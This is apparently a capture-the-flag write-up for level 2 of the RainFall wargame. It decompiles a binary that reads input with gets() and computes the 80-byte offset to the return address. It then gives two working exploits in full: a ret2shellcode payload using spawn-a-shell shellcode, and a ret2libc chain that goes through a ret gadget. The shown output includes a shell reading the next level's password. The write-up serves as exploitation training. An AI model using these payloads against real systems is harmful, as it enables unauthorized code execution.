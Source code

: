 # Level 2

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void p(void)
{
    fflush(stdout);

    int buffer[16];
    gets(buffer);

    int tmp = buffer[20];
    if ((tmp & 0xb0000000) == 0xb0000000)
    {
        printf("(%p)\n", tmp);
        exit(1);
    }
    puts(buffer);
    strdup(buffer);
}

int main(void)
{
    p();
}
```

Let's focus on the `p` function. It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read.

In this case, the program's stack is allocated 104 bytes:
```
# Allocating 104 bytes on the stack
0x080484d7 <+3>:     sub    $0x68,%esp

# Calculate the address of ebp - 76, since we allocated 104 bytes for the stack and since our next variable start at ebp - 12, our buffer will therefore be 64 bytes (here buf is an int array, so 64 bytes = 16 * 4 bytes)
0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax

# Move 4 bytes above ebp aka the return address into eax
0x080484f2 <+30>:    mov    0x4(%ebp),%eax

# Moving the return address into ebp - 12 which is our next variable, it is an int so 4 bytes.
0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)

There's still 12 bytes left before reaching our return address, these could be padding bytes or other variables. (except at ebp where it's the previous saved ebp address)
```

Although we allocated 104 bytes on the stack, our buffer only starts at ebp - 76, which means that we only have to write 76 bytes before overflowing the stack. Furthermore, we need to write 4 bytes to reach the return address so 80 bytes in total (as shown in the assembly code above). Anything written beyond those 80 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `p` function.

There's different ways to solve this challenge, we'll see two of them. First the intended way (I assume) with a ret2shellcode and then the ret2libc way.

### Ret2Shellcode
We opt for a shellcode designed to spawn a shell. This shellcode, taken from the [Exploit Database](https://www.exploit-db.com/exploits/41757), is compact and effective for our purpose:

`\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

To redirect the execution, after the buffer overflow, we need an address. We use `ltrace` to find that `strdup` returns to `0x0804a008`.

```bash
$ ltrace ./level2
[...]
strdup("") = 0x0804a008
```

Since `strdup` allocates the buffer that was read by `gets`, the address of the shellcode will be stored at `0x0804a008` (The address that was returned by strdup).

So our payload will be:
```
shellcode + padding + address of shellcode
Alternatively, you could place the padding before the shellcode, using NOPs.

"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\xa0\x04\x08"

The padding is 80 - 21 because the shellcode is 21 bytes long.
```

Alright let's try it:
```bash
level2@RainFall:~$ (python -c 'print("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\xa0\x04\x08")' && cat) | ./level2
j
 X�Rh//shh/bin��1�̀������������������������������������������������������
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Perfect, let's move to the other solution.

### Ret2Libc
Ret2Libc (Return-to-Libc) is an exploit technique that doesn't require injecting shellcode but instead redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"

The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.
```

We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xb7e6b060  __libc_system
0xb7e6b060  system

# Exit
(gdb) info functions exit
0x080483d0  _exit
0x080483d0  _exit@plt

# /bin/sh
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

However we'll need to include an extra step because of the following lines:
```c
if ((tmp & 0xb0000000) == 0xb0000000)
{
    printf("(%p)\n", tmp);
    exit(1);
}
```

Ealier, I mentionned that the return address was put into our next variable, which is `tmp`. So the `&` operator, along with the `0xb0000000` mask is used to check if our return address most significant byte is equal to `0xb`. If it is, the program will exit. So we need to find an address that doesn't start with `0xb`. 

Given that the address of the `system` function begins with `0xb`, it cannot be directly used. So we'll have to include the address of a `ret` instruction in our payload. When the program attempts to return to this address, the `ret` instruction pops the address of `system` into the EIP register, causing the program to jump to `system`.


Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

0804853e b7e6b060 080483d0 b7f8cc58
"\x90"*80 + "\x08\x04\x85\x3e" + "\xb7\xe6\xb0\x60" + "\x08\x04\x83\xd0" + "\xb7\xf8\xcc\x58"
```

Let's run it:
```bash
level2@RainFall:~$ (python -c 'print("\x90"*80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\x08\x04\x83\xd0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])' && cat) | ./level2
����������������������������������������������������������������>������������>`��X���
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

We are now level3! Let's move on to the next level.
